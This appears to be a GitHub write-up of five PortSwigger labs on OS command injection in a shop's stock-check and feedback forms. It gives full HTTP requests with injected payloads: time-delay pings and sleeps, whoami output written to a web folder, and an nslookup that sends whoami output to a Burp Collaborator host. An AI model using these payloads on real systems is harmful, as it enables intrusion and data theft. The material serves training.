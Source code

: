 
# Command Injection Labs

### LAB #1: OS command injection - a simple case

Lab URL: https://portswigger.net/web-security/os-command-injection/lab-simple

Objective: Execute the `whoami` command to determine the name of the current user.

This lab contains a shopping application that has different no of products for purchase. Each product has a `Check Stock` functionality in which we can see which products are in stock.

For checking the stock they are sending the POST request to the `/product/stock` endpoint with the following parameters.

```
productId=1&storeId=1
```

If we change the `productID` with `%26woami||` we can successfully execute the shell commands.

### LAB #2: Blind OS command injection with time delays

Lab URL: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

Objective: Exploit the blind OS command that causes a 10-second delay.

This lab contains a shopping application that has a different number of products for purchase. The site also has a `submit feedback` functionality on `/feedback/submit`. We can submit feedback using a POST request with the parameters `csrf`, `name`, `email`, `subject`, and `message`. This request looks like the following.

```
POST /feedback/submit HTTP/2
Host: 0a570077046bf0ec819c20e200ff00fc.web-security-academy.net
Cookie: session=vvR2TvdcvgzSfd9Gk9hSwbgJ06skpFgQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: https://0a570077046bf0ec819c20e200ff00fc.web-security-academy.net
Dnt: 1
Referer: https://0a570077046bf0ec819c20e200ff00fc.web-security-academy.net/feedback

csrf=TDzkG4ZyyhjE890Ojvukl4FNTgNQhHhE&name=temp&email=temp%40temp.com&subject=anything&message=hello
```

If we change the email parameter like the following we will see certain seconds of time delay in our response.

```
csrf=TDzkG4ZyyhjE890Ojvukl4FNTgNQhHhE&name=temp&email=temp%40temp.com||ping+-c+10+localhost||&subject=anything&message=hello
```

There we use `||` to break the shell command and then add a ping command to `localhost` that will send total request pings after that we separate the remaining command with the `||` character. They are using OS native email functionality to send an email that gets the `email`, and `subject` like this.

```
mail –s "anything" temp@temp.com
```

They add our user-supplied email without any validation into the shell command and with that, the above shell command becomes like this

```
mail -s "anything" temp@temp.com||ping -c 10 localhost||
```

### LAB #3: Blind OS command injection with output redirection

Lab URL: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

Objective: Execute the `whoami` command and retrieve its output.

This lab contains a shopping application that has a different number of products for purchase. The site also has a `submit feedback` functionality on `/feedback/submit`. We can submit feedback using a POST request with the parameters `csrf`, `name`, `email`, `subject`, and `message`. This request looks like the following.

```
POST /feedback/submit HTTP/2
Host: 0ab000790446117e80a412330022000c.web-security-academy.net
Cookie: session=0YWiP22CUfWGE4dcvQS2B7XyRJmCzj7x
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Origin: https://0ab000790446117e80a412330022000c.web-security-academy.net
Dnt: 1
Referer: https://0ab000790446117e80a412330022000c.web-security-academy.net/feedback

csrf=cmzN16GjRkBRjSFUpK8pLBr9URq7ytvn&name=temp&email=temp%40temp.com&subject=temp&message=temp%0A
```

If we change the email parameter like the following we will see certain seconds of time delay in our response.

```
csrf=cmzN16GjRkBRjSFUpK8pLBr9URq7ytvn&name=temp&email=temp%40temp.com||sleep+10||&subject=temp&message=temp%0A
```

There we use `||` to break the shell command and then add a ping command to `localhost` that will send total request pings after that we separate the remaining command with the `||` character. They use OS native email functionality to send an email that gets the `email`, and `subject` like this.

```
mail –s "anything" temp@temp.com
```

They add our user-supplied email without any validation into the shell command and with that, the above shell command becomes like this

```
mail -s "anything" temp@temp.com||ping -c 10 localhost||
```

Confirming we have a blind command injection we can run any command and redirect its output to a file in a readable directory. After that, we can read that file by visiting that file URL in the browser. So the steps should look like the following.

```
POST /feedback/submit HTTP/2
Host: 0ab000790446117e80a412330022000c.web-security-academy.net
Cookie: session=0YWiP22CUfWGE4dcvQS2B7XyRJmCzj7x
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Origin: https://0ab000790446117e80a412330022000c.web-security-academy.net
Dnt: 1
Referer: https://0ab000790446117e80a412330022000c.web-security-academy.net/feedback
Te: trailers

csrf=cmzN16GjRkBRjSFUpK8pLBr9URq7ytvn&name=temp&email=temp%40temp.com||whoami+>+/var/www/images/whoami.txt||&subject=temp&message=temp%0A
```

There we use the following command in the email parameter.

```
whoami > /var/www/images/whoami.txt
```

this executes the `whoami` command that is used to get the username of the currently logged-in user in the OS and then we use output redirector `>` that will redirect the output of the command to a file and writes it so we supplied `/var/www/images/whoami.txt` path. In which `whoami.txt` is the file created and contains the output of the `whoami` command.

As we know the site uses the following url to fetch images.

```
https://0ab000790446117e80a412330022000c.web-security-academy.net/image?filename=01.png
```

we can use that to get out the `whoami.txt` file like the following.

```
https://0ab000790446117e80a412330022000c.web-security-academy.net/image?filename=whoami.txt
```

### LAB #4: Blind OS command injection with out-of-band interaction

Lab URL: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

Objective: Exploit OS command injection to issue a DNS lookup to Burp Collaborator

This lab contains a shopping application that has a different number of products for purchase. The site also has a `submit feedback` functionality on `/feedback/submit`. We can submit feedback using a POST request with the parameters `csrf`, `name`, `email`, `subject`, and `message`. This request looks like the following.

```
POST /feedback/submit HTTP/2
Host: 0a6c00b3049c885780ab4e7900ee00db.web-security-academy.net
Cookie: session=X52KKnSbEHZFBZuXv0FDFb4yzmWsHAf1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Te: trailers
Connection: close

csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com&subject=temp&message=temp
```

If we change the email parameter like the following

```
csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com||sleep+10||&subject=temp&message=temp
```

we will not see any certain seconds of time delay in our response but if we supplied a burp collaborator domain like this we will see an out-of-band interaction.

```
csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com||nslookup+gn7rxenzjteskktdr2zxjnkxjoped3.oastify.com||&subject=temp&message=temp
```

### LAB #5: Blind OS command injection with out-of-band data exfiltration

Lab URL: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

Objective: Exploit OS command injection to do an out-of-band interaction to exfiltrate the the output of `whoami` command.

This lab contains a shopping application that has a different number of products for purchase. The site also has a `submit feedback` functionality on `/feedback/submit`. We can submit feedback using a POST request with the parameters `csrf`, `name`, `email`, `subject`, and `message`. This request looks like the following.

```
POST /feedback/submit HTTP/2
Host: 0a6c00b3049c885780ab4e7900ee00db.web-security-academy.net
Cookie: session=X52KKnSbEHZFBZuXv0FDFb4yzmWsHAf1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Te: trailers
Connection: close

csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com&subject=temp&message=temp
```

If we change the email parameter like the following

```
csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com||sleep+10||&subject=temp&message=temp
```

we will not see any certain seconds of time delay in our response but if we supplied a burp collaborator domain like this we will see an out-of-band interaction.

```
csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com||nslookup+gn7rxenzjteskktdr2zxjnkxjoped3.oastify.com||&subject=temp&message=temp
```

Knowing there is a command injection vulnerability we can exfiltrate data like the following.

```
csrf=wV6E44vNhrydBtLgr6UVBB5bbQi0LPb5&name=temp&email=temp%40temp.com||nslookup+`whoami`.gn7rxenzjteskktdr2zxjnkxjoped3.oastify.com||&subject=temp&message=temp
```

There we use backticks to run the inline shell command and append its output to our burp collaborator subdomain. So when this command run we will see the username of the currently logged-in user with the domain name like the following in our burp collaborator logs.

```
peter.gn7rxenzjteskktdr2zxjnkxjoped3.oastify.com
```